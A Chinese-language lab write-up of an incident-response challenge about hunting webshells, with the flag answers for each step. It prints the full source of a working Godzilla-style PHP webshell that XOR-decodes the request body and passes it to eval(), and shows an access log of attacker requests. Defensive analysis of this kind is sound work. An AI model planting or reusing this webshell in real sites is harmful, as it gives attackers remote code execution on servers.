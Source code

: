 ```yaml
---
sidebar_position: 1
tags: [Easy, 应急响应]
title: 第一章 应急响应-webshell查杀
description: 第一章 应急响应-webshell查杀
sidebar_label: 第一章 应急响应-webshell查杀 
---
```

# 第一章 应急响应-webshell查杀

压缩网站文件夹并下载到本地, 随后使用 D盾查杀工具进行查杀

![20240529122940](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240529122940.png)

## 黑客webshell里面的flag
查看 `/var/www/html/include/gz.php` 文件中内容

```php
root@ip-10-0-10-1:/var/www/html/include# cat gz.php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
:::info
```txt
flag{027ccd04-5065-48b6-a32d-77c704a5e26d}
```
:::

## 黑客使用的什么工具的shell github地址的md5
对 `/var/www/html/include/gz.php` 进行分析判断为 [哥斯拉](https://github.com/BeichenDream/Godzilla)的工具

:::info
```txt
flag{39392de3218c333f794befef07ac9257}
```
:::

## 黑客隐藏shell的完整路径
使用 D盾 查杀工具查杀后可以发现有一个 `/var/www/html/include/Db/.Mysqli.php ` 这个应该就是隐藏的 WebShell

## 黑客免杀马完整路径
对日志进行分析, 筛选用户的请求路径 (其实在上面的查杀中也可以看出来是 `/var/www/html/wap/top.php` )
```bash
root@ip-10-0-10-1:/var/www/html/wap# awk '{print $7}' /var/log/apache2/access.log | sort | uniq -c
      9 /
      1 /1.php
      1 /admin
      1 /admin/
      6 /admin/admin.php
      1 /admin/admin.php?action=admin&ctrl=lists
      2 /admin/admin.php?action=comment&ctrl=lists
      1 /admin/admin.php?action=file&ctrl=edit&path=./shell.php
      2 /admin/admin.php?action=file&ctrl=edit&path=shell.php
      6 /admin/admin.php?action=file&ctrl=lists
      1 /admin/admin.php?action=file&ctrl=lists&path=.
      4 /admin/admin.php?action=frame&ctrl=iframes
      1 /admin/admin.php?action=frame&ctrl=login
      5 /admin/admin.php?action=frame&ctrl=main
      4 /admin/admin.php?action=frame&ctrl=menu
      4 /admin/admin.php?action=frame&ctrl=top
      2 /admin/admin.php?action=link&ctrl=lists
      3 /admin/admin.php?action=sql&ctrl=display
      1 /admin/admin.php?path=&action=file&ctrl=create&isdir=0&name=&fbtn=%E6%96%B0%E5%BB%BA%E6%96%87%E4%BB%B6
      1 /admin/admin.php?path=&action=file&ctrl=create&isdir=0&name=shell.php&fbtn=%E6%96%B0%E5%BB%BA%E6%96%87%E4%BB%B6
      4 /adminer.php
      1 /adminer.php?file=default.css&version=4.7.2
      1 /adminer.php?file=favicon.ico&version=4.7.2
      1 /adminer.php?file=functions.js&version=4.7.2
      2 /adminer.php?file=jush.js&version=4.7.2
      1 /adminer.php?script=version
     10 /adminer.php?username=root
      1 /adminer.php?username=root&db=mysql
      1 /adminer.php?username=root&db=mysql&script=db
      1 /admin/template/images/common.css
      1 /admin/template/images/common.js
      1 /admin/template/images/mainnavbg.gif
      1 /admin/template/images/sub_arrow.gif
      3 /admin/template/images/tinyeditor.js
      3 /api.php?action=comment&ctrl=code
      2 /?cat=1
      1 /data/tplcache/top.php
      2 /data/tplcache/top.php?1=phpinfo();
      1 //favicon.ico
      3 /favicon.ico
      3 /?id=1
     16 /install.php
    107 /shell.php
      1 /template/taoCMS/images/addthis.gif
      1 /template/taoCMS/images/dot.gif
      1 /template/taoCMS/images/logo.gif
      1 /template/taoCMS/images/style.css
      2 /template/taoCMS/images/tao.js
      1 /template/taoCMS/images/tip.gif
      4 /wap/index.php?1=phpinfo();
      1 /wap/template/images/logo.gif
      1 /wap/template/images/mobile.css
      1 /wap/template/images/time.gif
      2 /wap/top.php?1=phpinfo();
      1 /wap/top.php?fuc=ERsDHgEUC1hI&func2=ser
      1 /wap/top.php?fuc=ERsDHgEUC1hI&func2=sert
root@ip-10-0-10-1:/var/www/html/wap# 
```

:::info
```txt
flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}
```
:::